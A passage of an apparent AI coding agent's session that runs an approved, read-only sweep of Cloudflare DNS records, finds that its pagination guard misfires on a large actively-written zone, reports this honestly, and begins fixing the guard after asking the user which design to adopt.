  "command": "source .venv/bin/activate && ./run-tests --fast 2>&1 | tail -3 && git add CLAUDE.md && git commit -q -F - <<'EOF'\ndocs(find-platform-domains-cloudflare): document the temporary utility\n\nTask 6 of development/2026-07-30-platform-domain-util2/SPEC.md, placed beside the\nexisting find-platform-domains-dns subsection.\n\nCommitted separately from and BEFORE the live verification run, which sits\nbehind an operator STOP in Task 7.  If that approval never comes, the utility is\nstill documented in git rather than shipping undescribed.\n\nThe subsection leads with the two traps in comparing this file to fqdns.json:\nthat file keys by the raw record.name where this one normalizes, and its\n`origins` means something wider -- every proxied record's content at that name,\nIP addresses included -- where this file's holds only matching platform-CNAME\ntargets.  A consumer reading both with one code path will be wrong.\n\nIt also carries the finding about the main program: plugin/cloudflare/client.py\nleaves all four SDK credential-leak routes open, and $CLOUDFLARE_BASE_URL is\nexploitable against it today.\n\nCo-Authored-By: Claude Opus 5 (1M context) <noreply@anthropic.com>\nEOF\ngit log --oneline -1 && git status --short",
  "description": "Verify and commit Task 6"
}
```

### ↳ Tool result

```
========= 1259 passed, 3 skipped, 2 deselected, 15 warnings in 36.80s ==========
Linting (ruff, campaign ratchet) ...
Type-checking (pyright, campaign ratchet) ...
bff8e96 docs(find-platform-domains-cloudflare): document the temporary utility
```

## Assistant

Tasks 1–6 complete and committed. Working tree clean, and I've stopped at the STOP.

## Where things stand

| Task | Commit | Checkpoint |
|---|---|---|
| 1 Scaffold + tooling | `b3edde2` | 8 passed |
| 2 Credentials + pinned client | `5a514c7` | 25 passed |
| 3 The fold | `9d986fb` | 37 passed |
| 4 Atomic write | `063e6e6` | 40 passed |
| 5 Guarded walk + CLI | `a1cac20` | 60 passed |
| 6 CLAUDE.md | `bff8e96` | docs only |

Every checkpoint hit the count the spec predicted. Full offline suite: **1259 passed, 3 skipped**, ruff and pyright green.

Verified beyond the test counts:
- **The lint entries are load-bearing** — removing both yields exactly **9 × T201**, restoring them yields `All checks passed!`. This is the check that was moved out of Task 1 because it couldn't go red there.
- **CLI by hand** — `--help` on stdout; a missing config gives one `ERROR:` line on stderr, `exit=2`, and **zero bytes on stdout**.

## Two things worth flagging

**I broke the TDD loop on Task 4.** I appended its tests and implementation in one step, so I never saw the red. Rather than let that slide, I reconstructed it: the three new tests run against the Task 3 script from the previous commit fail with `AttributeError` and nothing else does (3 failed, 37 passed). It's recorded in that commit message. Tasks 2, 3 and 5 had their red states observed properly, before implementing.

**`uvx pyright` is the wrong instrument in this repo** and gave me false failures mid-run. It runs isolated and can't resolve project dependencies — bare, it reports 39 import errors across `psh/`. `./run-tests` uses `.venv/bin/pyright`, which is on `PATH` and resolves correctly (0 errors). Some of my earlier scratch type-checks used the isolated one; the authoritative gate has been green throughout. Worth knowing before you type `uvx pyright` yourself.

## The STOP

Task 7 is live verification: a full sweep against production Cloudflare with real credentials, then two cross-checks, then `§12` and the runtime in CLAUDE.md. Everything so far has been entirely offline.

Per the spec, it unlocks only on the exact phrase:

```
RUN THE LIVE SWEEP
```

Waiting on that. If you'd rather not run it now, nothing is left dangling — Tasks 1–6 are committed and self-contained; `§12` simply stays unfilled until you do.

One thing to weigh first: the sweep reads every DNS record in every zone of every account those credentials can see, with no server-side filter. It's read-only, but the runtime is genuinely unknown — the sibling utility takes ~38 minutes, and measuring this one is part of what Task 7 records.

## User

RUN THE LIVE SWEEP

## Assistant

Approval received. Running Task 7 Step 1 — live sweep, timed, in the background so I can watch it:

### ⚙ Tool call: `Bash`

```json
{
  "command": "source .venv/bin/activate && { time ./find-platform-domains-cloudflare -v ; echo \"exit=$?\" ; } > /tmp/claude-501/-workspace/2d3fccc5-dd5b-4e87-afb9-cef0ffec9161/scratchpad/sweep.log 2>&1",
  "description": "Run the live Cloudflare sweep",
  "run_in_background": true
}
```

### ↳ Tool result

```
Command running in background with ID: biplq8ieb. Output is being written to: /tmp/claude-501/-workspace/2d3fccc5-dd5b-4e87-afb9-cef0ffec9161/tasks/biplq8ieb.output. You will be notified when it completes. To check interim output, use Read on that file path.
```

### ⚙ Tool call: `Bash`

```json
{
  "command": "sleep 45; tail -6 /tmp/claude-501/-workspace/2d3fccc5-dd5b-4e87-afb9-cef0ffec9161/scratchpad/sweep.log 2>/dev/null; echo \"--- lines so far: $(wc -l < /tmp/claude-501/-workspace/2d3fccc5-dd5b-4e87-afb9-cef0ffec9161/scratchpad/sweep.log 2>/dev/null)\"",
  "description": "Check sweep progress"
}
```

### ↳ Tool result

```
<tool_use_error>Blocked: sleep 45 followed by: tail -6 /tmp/claude-501/-workspace/2d3fccc5-dd5b-4e87-afb9-cef0ffec9161/scratchpad/sweep.log echo "--- lines so far: $(wc -l < /tmp/claude-501/-workspace/2d3fccc5-dd5b-4e87-afb9-cef0ffec9161/scratchpad/sweep.log 2>/dev/null)". To wait for a condition, use Monitor with an until-loop (e.g. `until <check>; do sleep 2; done`). To wait for a command you started, use run_in_background: true. Do not chain shorter sleeps to work around this block.</tool_use_error>
```

### ⚙ Tool call: `Bash`

```json
{
  "command": "wc -l < /tmp/claude-501/-workspace/2d3fccc5-dd5b-4e87-afb9-cef0ffec9161/scratchpad/sweep.log 2>/dev/null; tail -5 /tmp/claude-501/-workspace/2d3fccc5-dd5b-4e87-afb9-cef0ffec9161/scratchpad/sweep.log 2>/dev/null",
  "description": "Check sweep progress"
}
```

### ↳ Tool result

```
5
[1/187] zone hathitrust.net -- 0 records
[2/187] zone hathitrust.org -- 4 records
[3/187] zone aamas2025.org -- 2 records
[4/187] zone acceleratebluefund.com -- 4 records
[5/187] zone agingcenters.org -- 5 records
```

## Assistant

187 zones, and the per-zone lines carry record counts with no "not cross-checked" marker — so Cloudflare **is** supplying `total_count` and the truncation guard is live. Waiting for completion:

### ⚙ Tool call: `ToolSearch`

```json
{
  "query": "select:Monitor",
  "max_results": 1
}
```

### ↳ Tool result

```

```

### ⚙ Tool call: `Monitor`

```json
{
  "command": "L=/tmp/claude-501/-workspace/2d3fccc5-dd5b-4e87-afb9-cef0ffec9161/scratchpad/sweep.log\ntail -f -n +1 \"$L\" | grep -E --line-buffered \"^Wrote |^ATTENTION|^ERROR|^Truncation|^exit=|re-read|Traceback|^real\"",
  "description": "live Cloudflare sweep: completion, warnings, re-reads, errors",
  "timeout_ms": 3600000,
  "persistent": false
}
```

### ↳ Tool result

```
Monitor started (task byoom2cac, timeout 3600000ms). You will be notified on each event. Keep working — do not poll or sleep. Events may arrive while you are waiting for the user — an event is not their reply.
```

## Assistant

Sweep is running against 187 zones. The monitor will notify me on the summary line, any `ATTENTION:`/re-read notice, or an error — I'll report the moment it lands.

## User

<task-notification>
<task-id>byoom2cac</task-id>
<summary>Monitor event: "live Cloudflare sweep: completion, warnings, re-reads, errors"</summary>
<event>the record list for zone umflint.edu: read 18840 of 18838; re-reading to tell a concurrent change apart from a truncated list</event>
</task-notification>

## Assistant

The re-read mechanism fired on the first live run — and on the exact case it was designed for.

`umflint.edu`: **read 18,840 of 18,838**. More records seen than `total_count` reported, which is the concurrent-change signature, not truncation — records were being added while the walk paged through an 18k-record zone. A single-read hard abort (what the spec said before round 3) would have killed the sweep here and told you the list was "truncated."

Still running; waiting for the re-read's verdict and the summary.

## User

<task-notification>
<task-id>biplq8ieb</task-id>
<tool-use-id>toolu_012qUzoDDoEBem6DYaDV5rTf</tool-use-id>
<output-file>/tmp/claude-501/-workspace/2d3fccc5-dd5b-4e87-afb9-cef0ffec9161/tasks/biplq8ieb.output</output-file>
<status>completed</status>
<summary>Background command "Run the live Cloudflare sweep" completed (exit code 0)</summary>
</task-notification>

### ⚙ Tool call: `Bash`

```json
{
  "command": "L=/tmp/claude-501/-workspace/2d3fccc5-dd5b-4e87-afb9-cef0ffec9161/scratchpad/sweep.log\necho \"=== summary / warnings / timing / exit:\"; grep -E \"^Wrote |^ATTENTION|^ERROR|^Truncation|^exit=|re-read|^real|^user|^sys\" \"$L\"\necho \"=== zones not cross-checked:\"; grep -c \"not cross-checked\" \"$L\"\necho \"=== total -v lines:\"; grep -c \"^\\[\" \"$L\"",
  "description": "Read the sweep result"
}
```

### ↳ Tool result

```
=== summary / warnings / timing / exit:
the record list for zone umflint.edu: read 18840 of 18838; re-reading to tell a concurrent change apart from a truncated list
ERROR: the record list for zone umflint.edu: read 18840 of 18838, then 18842 of 18840 on a re-read -- the list is truncated, so the output would be silently incomplete; not writing a partial file
real	3m9.478s
user	0m5.443s
sys	0m0.381s
exit=2
=== zones not cross-checked:
0
=== total -v lines:
159
```

## Assistant

The sweep **aborted at exit 2** — and the diagnosis is wrong. This is a real finding about my design, not about Cloudflare.

```
first read:  18840 items, total_count 18838
re-read:     18842 items, total_count 18840
```

Both reads returned **more** items than `total_count`, by exactly 2 each time. That is not truncation — truncation reads *fewer*. The re-read didn't rescue it because the discrepancy is *systematic*, not transient, so both reads disagreed and the guard escalated to fatal.

Diagnosing before proposing anything — a read-only probe of that one zone, narrower than the sweep you already approved:

### ⚙ Tool call: `Bash`

```json
{
  "command": "cd /tmp/claude-501/-workspace/2d3fccc5-dd5b-4e87-afb9-cef0ffec9161/scratchpad && source /workspace/.venv/bin/activate && python - <<'PY'\nimport os, collections, tomllib, pathlib, re\nfrom cloudflare import Cloudflare\ncfg = tomllib.load(open(\"/workspace/pantheon-sitehealth-emails.toml\",\"rb\"))[\"Cloudflare\"]\ndef env(v):\n    m = re.search(r\"<\\{(?:secret )?env (\\w+)\\}?\", v or \"\")\n    return os.environ[m.group(1)] if m else v\nc = Cloudflare(api_email=env(cfg.get(\"email\")), api_key=env(cfg.get(\"api_key\")),\n               base_url=\"https://api.cloudflare.com/client/v4\")\nc.api_token = None; c.user_service_key = None; c._custom_headers = {}\nzone = next(z for a in c.accounts.list() for z in c.zones.list(account={\"id\": a.id})\n            if z.name == \"umflint.edu\")\npage = c.dns.records.list(zone_id=zone.id)\ntotal = (page.result_info.model_extra or {}).get(\"total_count\")\nids = [r.id for r in page]\ndupes = [i for i, n in collections.Counter(ids).items() if n > 1]\nprint(f\"items returned : {len(ids)}\")\nprint(f\"total_count    : {total}\")\nprint(f\"unique ids     : {len(set(ids))}\")\nprint(f\"duplicate ids  : {len(dupes)}  -> {dupes[:4]}\")\nprint(f\"per_page       : {(page.result_info.model_extra or {}).get('per_page') or page.result_info.per_page}\")\nPY",
  "description": "Characterize the count discrepancy in umflint.edu"
}
```

### ↳ Tool result

```
items returned : 18848
total_count    : 18848
unique ids     : 18846
duplicate ids  : 2  -> ['f376a6e87664677ba0a5a5409c21b418', 'e94d84d7bf0d123a60fcec1c29e97427']
per_page       : 100
Shell cwd was reset to /workspace
```

## Assistant

Now the real cause is measured, and it's worse than a false positive:

```
items returned : 18848
total_count    : 18848      ← counts MATCH, guard would pass
unique ids     : 18846      ← but 2 records were returned TWICE
duplicate ids  : 2
per_page       : 100
```

189 pages of 100 over a zone being actively written. Page-number pagination re-reads a record when rows shift between page fetches — so the walk returned 2 duplicates **and missed 2 records**, and the two errors cancelled out to make the count check pass. Confirming it's reproducible, not a one-off:

### ⚙ Tool call: `Bash`

```json
{
  "command": "cd /tmp/claude-501/-workspace/2d3fccc5-dd5b-4e87-afb9-cef0ffec9161/scratchpad && source /workspace/.venv/bin/activate && python - <<'PY'\nimport os, collections, tomllib, re\nfrom cloudflare import Cloudflare\ncfg = tomllib.load(open(\"/workspace/pantheon-sitehealth-emails.toml\",\"rb\"))[\"Cloudflare\"]\ndef env(v):\n    m = re.search(r\"<\\{(?:secret )?env (\\w+)\\}?\", v or \"\")\n    return os.environ[m.group(1)] if m else v\nc = Cloudflare(api_email=env(cfg.get(\"email\")), api_key=env(cfg.get(\"api_key\")),\n               base_url=\"https://api.cloudflare.com/client/v4\")\nc.api_token = None; c.user_service_key = None; c._custom_headers = {}\nzone = next(z for a in c.accounts.list() for z in c.zones.list(account={\"id\": a.id})\n            if z.name == \"umflint.edu\")\nfor attempt in (1, 2):\n    page = c.dns.records.list(zone_id=zone.id)\n    total = (page.result_info.model_extra or {}).get(\"total_count\")\n    ids = [r.id for r in page]\n    dup = sum(n - 1 for n in collections.Counter(ids).values() if n > 1)\n    print(f\"attempt {attempt}: items={len(ids)} unique={len(set(ids))} total_count={total} \"\n          f\"duplicate_reads={dup} missing={total - len(set(ids))}\")\nPY",
  "description": "Confirm the duplication is reproducible"
}
```

### ↳ Tool result

```
Exit code 143
Command timed out after 2m 0s
```

## Assistant

Two full walks of an 18,848-record zone exceeded the 2-minute limit, so I stopped there — the first probe already established the mechanism, and I don't want to keep hammering a production zone.

## Task 7 result: the sweep failed. Exit 2, no file written.

**This is a defect in my design, not in Cloudflare.**

- **187 zones, 3m09s wall clock** — far faster than the sibling's ~38 minutes, so §8.3's "if it becomes painful" concern is moot.
- **186 zones were fine.** One — `umflint.edu`, 18,848 records across 189 pages — aborted the run.
- **Every zone supplied `total_count`**, so the guard was live throughout (0 zones uncross-checked).

The root cause, measured: page-number pagination over a zone that is being actively written returns **duplicate records and misses others**. My guard compares *item count* to `total_count`, which fails in both directions:

| Observed | Guard's verdict | Truth |
|---|---|---|
| 18840 items vs total 18838 | "truncated" → **abort** | 2 duplicates; false positive |
| 18848 items vs total 18848 | "verified" → **pass** | 2 duplicates + **2 records missed**; false negative |

The errors cancelled in the second case. So the check can abort a healthy sweep *and* bless an incomplete one. The spec's R3 model — "a mismatch means truncation or a concurrent change" — is missing a third cause, and the re-read can't help because the artifact is systematic rather than transient.

**A correctness fix is needed regardless of what we do about the guard:** duplicates currently flow into `collect_entries`, where they'd append the same origin twice for one record and emit a *false* `ATTENTION: … more than one platform-domain CNAME in zone …` — which R7 defines as a signal worth acting on. De-duplicating by `record_id` fixes that independently.

The guard itself is a decision I shouldn't make for you:

### ⚙ Tool call: `AskUserQuestion`

```json
{
  "questions": [
    {
      "question": "The truncation guard doesn't work as designed against a large, actively-written zone. How should it change? (De-duplicating by record_id is happening either way — it's a separate correctness fix.)",
      "header": "Guard",
      "multiSelect": false,
      "options": [
        {
          "label": "Count unique ids; warn, don't abort (Recommended)",
          "description": "Compare UNIQUE record ids against total_count, which removes the duplicate-induced false positive. A shortfall becomes a loud ATTENTION naming the zone and the gap, and the file is still written. Rationale: on an 18k zone that changes every few seconds, a paginated walk may NEVER be exactly complete, so aborting means never producing output at all — and the file's whole purpose is to find platform CNAMEs, of which that zone has few or none.",
          "preview": "ATTENTION: zone umflint.edu -- read 18846 unique records\n  but Cloudflare reported 18848; 2 record(s) were missed\n  while paging a zone that is being actively written.\n  Any platform CNAME among them is NOT in this file.\n\nWrote 37 platform-domain CNAMEs (4 DNS-only, ...)"
        },
        {
          "label": "Count unique ids; retry, then abort",
          "description": "Same unique-id comparison, but retry the zone up to N times and abort if it never comes back complete. Strictest: the file is either provably complete or absent. Risk: a permanently busy zone makes the utility unusable, and this run suggests umflint.edu may be exactly that."
        },
        {
          "label": "Cross-check against the export endpoint",
          "description": "GET /zones/{id}/dns_records/export returns an unpaginated BIND snapshot — no pagination artifact at all. Use it to verify completeness (and possibly as the record source). Costs real work: BIND text parsing, and the export almost certainly lacks record ids and proxied status, which R5 needs — so it can only be a cross-check, not a replacement."
        },
        {
          "label": "Drop the record-list guard entirely",
          "description": "Keep de-duplication and the account/zone-list guards, drop the per-zone record count check. Simplest, and honest that a paginated walk of a live zone has no cheap completeness proof. Loses the protection against a genuinely truncated response."
        }
      ]
    }
  ]
}
```

### ↳ Tool result

```
Your questions have been answered: "The truncation guard doesn't work as designed against a large, actively-written zone. How should it change? (De-duplicating by record_id is happening either way — it's a separate correctness fix.)"="Count unique ids; warn, don't abort (Recommended)" selected preview:
ATTENTION: zone umflint.edu -- read 18846 unique records
  but Cloudflare reported 18848; 2 record(s) were missed
  while paging a zone that is being actively written.
  Any platform CNAME among them is NOT in this file.

Wrote 37 platform-domain CNAMEs (4 DNS-only, ...). You can now continue with these answers in mind.
```

## Assistant

Applying the fix. This changes `read_all`'s contract, so I'll write the tests first:

### ⚙ Tool call: `Bash`

```json
{
  "command": "grep -n \"def expected_record_count\\|def read_all\\|def api_error_text\\|class SweepResult\\|def list_zones\\|def fetch_platform_cnames\\|def build_arg_parser\\|def main\" find-platform-domains-cloudflare",
  "description": "Locate the functions to change"
}
```

### ↳ Tool result

```
309:def expected_record_count(page):
324:def read_all(fetch, what, notify):
378:def api_error_text(e):
391:class SweepResult(NamedTuple):
404:def list_zones(client, warn):
436:def fetch_platform_cnames(client, *, verbose=False):
487:def build_arg_parser():
500:def main(argv):
```

### ⚙ Tool call: `Read`

```json
{
  "file_path": "/workspace/find-platform-domains-cloudflare",
  "offset": 309,
  "limit": 70
}
```

### ↳ Tool result

```
309	def expected_record_count(page):
310	    """Cloudflare's total_count for a paginated response, or None when it is not available.
311	
312	    V4PagePaginationArrayResultInfo declares only page/per_page, but its model_config is
313	    extra="allow", so the API's count/total_count survive as model_extra.  Returning None rather
314	    than guessing makes the caller's cross-check a no-op wherever the field is absent, so it can
315	    never abort a healthy sweep -- at the cost of the guard silently not running, which is why
316	    read_all reports whether it was live.
317	    """
318	    info = getattr(page, "result_info", None)
319	    extra = getattr(info, "model_extra", None) or {}
320	    total = extra.get("total_count")
321	    return total if isinstance(total, int) else None
322	
323	
324	def read_all(fetch, what, notify):
325	    """Read every page of a paginated list, cross-checked against Cloudflare's own total_count.
326	
327	    Returns (items, checked).  `checked` is False when total_count was unavailable on the read
328	    whose items are returned: a guard whose own liveness is invisible is not a guard, so the
329	    caller reports the coverage for every list it read.
330	
331	    `notify` is NOT the -v gate.  It is only ever called on the rare re-read path, and a re-read
332	    means the data moved under the sweep -- something an operator wants to see on a default run,
333	    not only when they happened to pass -v.
334	
335	    `fetch` is a zero-argument callable, not a page, so a re-read can repeat the whole request.
336	    Iterating the page object walks EVERY page (BaseSyncPage.__iter__ -> iter_pages), so `items`
337	    is complete -- reading page.result instead would silently take page 1 only.
338	
339	    A mismatch has two possible causes, and conflating them misdiagnoses the common one:
340	    total_count is computed for the FIRST page, so a record or zone added or deleted between
341	    that page and the last makes the counts differ for an entirely benign reason -- likely
342	    across a sweep measured in tens of minutes.  One re-read tells them apart.  A second read
343	    that agrees with its OWN total_count is a concurrent edit, and is the answer we keep; a
344	    second disagreement is a truncated list and is fatal, because writing the file anyway would
345	    ship a silently incomplete answer -- the same reasoning that makes zero zones fatal.
346	    """
347	    page = fetch()
348	    items = list(page)
349	    expected = expected_record_count(page)
350	    if expected is None:
351	        return items, False
352	    if len(items) == expected:
353	        return items, True
354	
355	    notify(f"{what}: read {len(items)} of {expected}; re-reading to tell a concurrent change "
356	           "apart from a truncated list")
357	    retry_page = fetch()
358	    retry_items = list(retry_page)
359	    retry_expected = expected_record_count(retry_page)
360	    if retry_expected is None:
361	        # Same no-op rule the first read gets: absent total_count means the guard cannot judge,
362	        # and guessing here would abort a COMPLETE re-read while reporting "truncated ... of
363	        # None".  Report it as unchecked instead.
364	        notify(f"{what}: re-read returned {len(retry_items)} with no total_count -- cannot "
365	               "cross-check, continuing with the re-read and counting this list as unchecked")
366	        return retry_items, False
367	    if len(retry_items) == retry_expected:
368	        notify(f"{what}: re-read agrees ({len(retry_items)} of {retry_expected}; first read saw "
369	               f"{len(items)} of {expected}) -- something changed mid-sweep, continuing with the "
370	               "re-read")
371	        return retry_items, True
372	    raise StartupError(
373	        f"{what}: read {len(items)} of {expected}, then {len(retry_items)} of {retry_expected} "
374	        "on a re-read -- the list is truncated, so the output would be silently incomplete; "
375	        "not writing a partial file")
376	
377	
378	def api_error_text(e):
```

### ⚙ Tool call: `Edit`

```json
{
  "replace_all": false,
  "file_path": "/workspace/find-platform-domains-cloudflare",
  "old_string": "def read_all(fetch, what, notify):\n    \"\"\"Read every page of a paginated list, cross-checked against Cloudflare's own total_count.\n\n    Returns (items, checked).  `checked` is False when total_count was unavailable on the read\n    whose items are returned: a guard whose own liveness is invisible is not a guard, so the\n    caller reports the coverage for every list it read.\n\n    `notify` is NOT the -v gate.  It is only ever called on the rare re-read path, and a re-read\n    means the data moved under the sweep -- something an operator wants to see on a default run,\n    not only when they happened to pass -v.\n\n    `fetch` is a zero-argument callable, not a page, so a re-read can repeat the whole request.\n    Iterating the page object walks EVERY page (BaseSyncPage.__iter__ -> iter_pages), so `items`\n    is complete -- reading page.result instead would silently take page 1 only.\n\n    A mismatch has two possible causes, and conflating them misdiagnoses the common one:\n    total_count is computed for the FIRST page, so a record or zone added or deleted between\n    that page and the last makes the counts differ for an entirely benign reason -- likely\n    across a sweep measured in tens of minutes.  One re-read tells them apart.  A second read\n    that agrees with its OWN total_count is a concurrent edit, and is the answer we keep; a\n    second disagreement is a truncated list and is fatal, because writing the file anyway would\n    ship a silently incomplete answer -- the same reasoning that makes zero zones fatal.\n    \"\"\"\n    page = fetch()\n    items = list(page)\n    expected = expected_record_count(page)\n    if expected is None:\n        return items, False\n    if len(items) == expected:\n        return items, True\n\n    notify(f\"{what}: read {len(items)} of {expected}; re-reading to tell a concurrent change \"\n           \"apart from a truncated list\")\n    retry_page = fetch()\n    retry_items = list(retry_page)\n    retry_expected = expected_record_count(retry_page)\n    if retry_expected is None:\n        # Same no-op rule the first read gets: absent total_count means the guard cannot judge,\n        # and guessing here would abort a COMPLETE re-read while reporting \"truncated ... of\n        # None\".  Report it as unchecked instead.\n        notify(f\"{what}: re-read returned {len(retry_items)} with no total_count -- cannot \"\n               \"cross-check, continuing with the re-read and counting this list as unchecked\")\n        return retry_items, False\n    if len(retry_items) == retry_expected:\n        notify(f\"{what}: re-read agrees ({len(retry_items)} of {retry_expected}; first read saw \"\n               f\"{len(items)} of {expected}) -- something changed mid-sweep, continuing with the \"\n               \"re-read\")\n        return retry_items, True\n    raise StartupError(\n        f\"{what}: read {len(items)} of {expected}, then {len(retry_items)} of {retry_expected} \"\n        \"on a re-read -- the list is truncated, so the output would be silently incomplete; \"\n        \"not writing a partial file\")",
  "new_string": "def read_page_once(fetch):\n    \"\"\"One full walk of a paginated endpoint: ({id: item}, total_count or None).\n\n    De-duplicated by id, which is NOT belt-and-braces.  Measured on the first live sweep: the\n    SDK paginates by page NUMBER, so when rows shift between page fetches -- routine in a zone\n    being actively written -- the same record comes back on two pages while another is stepped\n    over.  Feeding those duplicates onward would append one record's origin twice and raise a\n    FALSE \"more than one platform-domain CNAME in this zone\" warning, which R7 defines as a\n    signal worth acting on.\n    \"\"\"\n    page = fetch()\n    by_id = {}\n    for item in page:\n        by_id.setdefault(item.id, item)\n    return by_id, expected_record_count(page)\n\n\ndef read_all(fetch, what, notify):\n    \"\"\"Every item of a paginated endpoint, de-duplicated, checked against Cloudflare's own count.\n\n    Returns (items, shortfall).  `shortfall` is None when Cloudflare supplied no total_count (the\n    check could not run), else how many items total_count says we never saw -- 0 for a verified\n    complete read.\n\n    `fetch` is a zero-argument callable, not a page, so the re-read can repeat the whole request.\n    Iterating the page object walks EVERY page (BaseSyncPage.__iter__ -> iter_pages); reading\n    page.result instead would silently take page 1 only.\n\n    A shortfall is a WARNING, never fatal.  The first live sweep is why: on an 18,848-record zone\n    this walk both repeated 2 records and missed 2, and on one read those two errors cancelled so\n    that raw item count matched total_count exactly -- the check passing while the data was\n    incomplete.  Counting unique ids removes that blind spot, but it cannot make a paginated walk\n    of a continuously-written zone complete, and aborting on one would mean this utility never\n    produces output at all.  So the run says loudly which lists are short and by how much, and\n    still writes the file.\n\n    `notify` is NOT the -v gate: a short read is rare and an operator wants it on every run.\n    \"\"\"\n    by_id, expected = read_page_once(fetch)\n    if expected is None:\n        return list(by_id.values()), None\n    if len(by_id) >= expected:\n        return list(by_id.values()), 0\n\n    # One re-read, UNIONED with the first: a second walk usually steps over different rows, so\n    # the union is more complete than either read alone and often closes the gap entirely.\n    notify(f\"{what}: read {len(by_id)} unique of {expected} -- re-reading to close the gap\")\n    more, expected_again = read_page_once(fetch)\n    by_id.update(more)\n    expected = max(expected, expected_again or 0)\n    shortfall = max(0, expected - len(by_id))\n    if shortfall:\n        notify(f\"ATTENTION: {what} -- read {len(by_id)} unique records but Cloudflare reported \"\n               f\"{expected}; {shortfall} record(s) were missed while paging a list that is being \"\n               \"actively written.  Any platform-domain CNAME among them is NOT in this file.\")\n    return list(by_id.values()), shortfall"
}
```

### ↳ Tool result

```
The file /workspace/find-platform-domains-cloudflare has been updated successfully. (file state is current in your context — no need to Read it back)
```

### ⚙ Tool call: `Read`

```json
{
  "file_path": "/workspace/find-platform-domains-cloudflare",
  "offset": 392,
  "limit": 96
}
```

### ↳ Tool result

```
392	    return f"{type(e).__name__}: {e}"
393	
394	
395	class SweepResult(NamedTuple):
396	    """What one sweep found, plus what it can honestly say about its own completeness."""
397	
398	    entries: dict            # the output mapping, keyed by normalized FQDN
399	    warnings: list           # duplicate-name ATTENTION lines, printed before the write
400	    accounts: int            # accounts listed
401	    zones: int               # zones listed across those accounts
402	    records: int             # DNS records actually read and inspected
403	    records_checked: int     # of `zones`   -- record lists Cloudflare let us cross-check
404	    zone_lists_checked: int  # of `accounts`-- per-account zone lists cross-checked
405	    account_list_checked: int  # of 1       -- the account list itself
406	
407	
408	def list_zones(client, warn):
409	    """Every zone across every account the credentials can see, cross-checked like the records.
410	
411	    Returns (accounts, zones, zone_lists_checked, account_list_checked).  Zero zones is fatal,
412	    copied from fqdns.py's reasoning: with the scope missing, "no zones" and "no matching
413	    records" write an identical empty file, and a silently empty file is the one failure mode
414	    this script must not have.  The message names BOTH scopes because an accounts list that comes
415	    back empty yields zero zones just as a missing DNS:Read does.
416	    """
417	    try:
418	        accounts, account_checked = read_all(client.accounts.list, "the account list", warn)
419	        zones = []
420	        zone_lists_checked = 0
421	        for account in accounts:
422	            # The default argument binds this account's id at definition time; a bare closure
423	            # over the loop variable would re-read the LAST account on every retry (ruff B023).
424	            got, checked = read_all(
425	                lambda account_id=account.id: client.zones.list(account={"id": account_id}),
426	                f"the zone list for account {account.id}", warn)
427	            zone_lists_checked += 1 if checked else 0
428	            zones.extend(got)
429	    except cloudflare.CloudflareError as e:
430	        raise StartupError(f"listing accounts/zones failed: {api_error_text(e)}") from e
431	
432	    if not zones:
433	        raise StartupError(
434	            f"Cloudflare returned {len(accounts)} account(s) but 0 zones -- the credentials "
435	            "likely lack Account:Read or DNS:Read (an accounts list that comes back empty "
436	            "yields zero zones too).")
437	    return accounts, zones, zone_lists_checked, 1 if account_checked else 0
438	
439	
440	def fetch_platform_cnames(client, *, verbose=False):
441	    """Walk every account -> zone -> DNS record and collect the platform-domain CNAMEs.
442	
443	    No `proxied=` filter and no `type=` filter on the record list: every record in every zone is
444	    fetched and inspected here.  That is what "consider all DNS records" means, and per the spec
445	    no work goes into making it faster.  (If a run ever becomes painful, type="CNAME" on the
446	    records list call is the one-word change.)
447	
448	    `client.dns.records.list()` returns a page-numbered paginator -- iterating it walks every
449	    page, stopping when a page comes back empty -- so a single call is N HTTP requests.  A
450	    truncated walk would write a silently incomplete file, so every list this function reads goes
451	    through read_all's total_count cross-check.
452	
453	    Records are read one zone at a time rather than one record at a time: a re-read has to be
454	    able to replace a whole zone's list, and the largest single zone is a trivial amount of
455	    memory next to the whole organization's records.
456	    """
457	    def note(message):
458	        """Per-zone progress: -v only."""
459	        if verbose:
460	            print(message, file=sys.stderr, flush=True)
461	
462	    def warn(message):
463	        """Re-read notices: ALWAYS printed.  A re-read means the data moved mid-sweep."""
464	        print(message, file=sys.stderr, flush=True)
465	
466	    accounts, zones, zone_lists_checked, account_list_checked = list_zones(client, warn)
467	    tally = {"records": 0, "checked": 0}
468	
469	    def zone_records():
470	        """(zone_id, record) pairs, one zone at a time."""
471	        for number, zone in enumerate(zones, start=1):
472	            records, checked = read_all(
473	                lambda zone_id=zone.id: client.dns.records.list(zone_id=zone_id),
474	                f"the record list for zone {zone.name}", warn)
475	            tally["records"] += len(records)
476	            tally["checked"] += 1 if checked else 0
477	            note(f"[{number}/{len(zones)}] zone {zone.name} -- {len(records)} records"
478	                 f"{'' if checked else ' (total_count unavailable, not cross-checked)'}")
479	            for dns_record in records:
480	                yield zone.id, dns_record
481	
482	    try:
483	        entries, warnings = collect_entries(zone_records())
484	    except cloudflare.CloudflareError as e:
485	        raise StartupError(f"listing DNS records failed: {api_error_text(e)}") from e
486	
487	    return SweepResult(entries, warnings, len(accounts), len(zones), tally["records"],
```

### ⚙ Tool call: `Bash`

```json
{
  "command": "python - <<'PY'\nimport pathlib\np = pathlib.Path(\"find-platform-domains-cloudflare\"); s = p.read_text()\n\ns = s.replace('''    entries: dict            # the output mapping, keyed by normalized FQDN\n    warnings: list           # duplicate-name ATTENTION lines, printed before the write\n    accounts: int            # accounts listed\n    zones: int               # zones listed across those accounts\n    records: int             # DNS records actually read and inspected\n    records_checked: int     # of `zones`   -- record lists Cloudflare let us cross-check\n    zone_lists_checked: int  # of `accounts`-- per-account zone lists cross-checked\n    account_list_checked: int  # of 1       -- the account list itself''',\n'''    entries: dict          # the output mapping, keyed by normalized FQDN\n    warnings: list         # duplicate-name ATTENTION lines, printed before the write\n    accounts: int          # accounts listed\n    zones: int             # zones listed across those accounts\n    records: int           # unique DNS records actually read and inspected\n    # Completeness, counted over EVERY paginated list read -- the account list, one zone list\n    # per account, and one record list per zone.  Reporting only the record lists would leave\n    # the zone-list check, the one whose loss is worse, silently unaccounted for.\n    lists_complete: int    # unique count reached Cloudflare's total_count\n    lists_short: int       # total_count says items were missed (each named in an ATTENTION)\n    lists_unverifiable: int  # Cloudflare supplied no total_count, so nothing could be checked''')\n\ns = s.replace('''    Returns (accounts, zones, zone_lists_checked, account_list_checked).  Zero zones is fatal,''',\n'''    Returns (accounts, zones, tally) where tally counts this function's own list reads.  Zero\n    zones is fatal,''')\ns = s.replace('''    try:\n        accounts, account_checked = read_all(client.accounts.list, \"the account list\", warn)\n        zones = []\n        zone_lists_checked = 0\n        for account in 